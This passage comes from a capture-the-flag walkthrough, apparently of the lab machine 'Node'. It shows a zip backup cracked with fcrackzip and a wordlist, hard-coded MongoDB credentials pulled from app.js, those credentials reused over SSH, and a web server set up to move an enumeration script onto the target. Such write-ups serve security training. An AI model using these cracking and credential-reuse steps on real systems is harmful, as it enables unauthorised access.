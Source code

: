 ```text
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt myplace-decoded.backup
```

* **-u:** try to decompress the first file by calling unzip with the guessed password
* **-D:** select dictionary mode
* **-p:** password file

It cracks the password!

```text
PASSWORD FOUND!!!!: pw == magicword
```

Unzip the file using the above password.

```text
unzip -P magicword myplace-decoded.backup
```

Now it’s a matter of going through the files to see if there are hard coded credentials, exploitable vulnerabilities, use of vulnerable dependencies, etc.

While reviewing the files, you’ll see hard coded mongodb credentials in the app.js file.

```text
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';
```

We found a username ‘mark’ and a password ‘5AYRft73VtFpc84k’ to connect to mongodb locally. We also see a backup\_key which we’re not sure where it’s used, but we’ll make note of it.

## Initial Foothold <a id="c543"></a>

Most user’s reuse passwords, so let’s use the password we found to SSH into mark’s account.

```text
ssh mark@10.10.10.58
```

It worked! Let’s locate the user.txt flag and view it’s contents.

```text
mark@node:~$ locate user.txt
/home/tom/user.txt
mark@node:~$ cat /home/tom/user.txt 
cat: /home/tom/user.txt: Permission denied
```

We need to either escalate our privileges to tom or root in order to view the flag.

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```
